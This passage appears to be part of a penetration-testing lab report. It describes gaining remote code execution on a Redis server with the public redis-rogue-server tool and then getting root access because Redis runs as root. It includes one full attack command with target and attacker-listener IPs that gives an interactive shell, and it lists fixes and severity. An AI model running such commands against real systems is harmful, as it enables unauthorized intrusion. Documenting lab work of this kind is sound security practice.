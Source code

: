 **Vulnerability Exploited:**

Redis RCE using [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

**Vulnerability Explanation:**

Using redis-rogue-server, we could run the following command : 

```bash
python3 redis-rogue-server.py --rhost=192.168.222.69 --lhost=192.168.49.222 --lport=6379
```

It allows us to gain an interactive access to the machine (reverse shell is also possible)

**Vulnerability Fix:**

Update redis version.

**Severity:** Critical

**Proof of Concept / Code Here:**
![](attachments/Pasted%20image%2020220515165129.png)

**Local.txt Proof Screenshot**

No local

**Local.txt Contents**

No local
### Privilege Escalation

**Vulnerability Exploited:**

Server running as root

**Vulnerability Explanation:**

The redis server is executed as root so our initial access allows us to have directly access as root.

**Vulnerability Fix:**
